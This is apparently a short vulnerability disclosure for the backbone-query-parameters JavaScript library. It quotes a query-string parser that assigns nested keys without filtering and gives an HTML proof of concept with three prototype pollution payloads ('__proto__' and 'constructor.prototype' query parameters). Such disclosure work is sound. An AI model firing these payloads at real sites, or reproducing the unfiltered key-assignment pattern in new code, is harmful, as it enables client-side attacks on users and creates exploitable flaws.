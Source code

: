 ## backbone-query-parameters

URL: https://github.com/jhudson8/backbone-query-parameters

### Vulnerable code fragment

https://github.com/jhudson8/backbone-query-parameters/blob/d6fb511bddc1b213a3b766bd10dfaf5d3b5d5aab/backbone.queryparams.js

```js
  _extractParameters: function(route, fragment) {
    ...
      if (queryString) {
        var self = this;
        iterateQueryString(queryString, function(name, value) {
          self._setParamValue(name, value, data);

  ...

  _setParamValue: function(key, value, data) {
    // use '.' to define hash separators
    key = key.replace('[]', '');
    key = key.replace('%5B%5D', '');
    var parts = key.split('.');
    var _data = data;
    for (var i=0; i<parts.length; i++) {
      var part = decodeURIComponent(parts[i]);
      if (i === parts.length-1) {
        // set the value
        _data[part] = this._decodeParamValue(value, _data[part]);
      } else {
        _data = _data[part] = _data[part] || {};
      }
    }
  },
```

### PoC
```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/underscore.js/1.11.0/underscore-min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/backbone.js/1.4.0/backbone-min.js"></script>
<script src="https://raw.githack.com/jhudson8/backbone-query-parameters/d6fb511bddc1b213a3b766bd10dfaf5d3b5d5aab/backbone.queryparams.js"></script>
<script>
  var AppRouter = Backbone.Router.extend({
   routes: {
       "*vars":                "test"
   },
   test: function(vars) {
   }
});
var appRouter = new AppRouter();
Backbone.history.start();
</script>
```
```
?__proto__.test=test
?constructor.prototype.test=test
?__proto__.array=1|2|3
```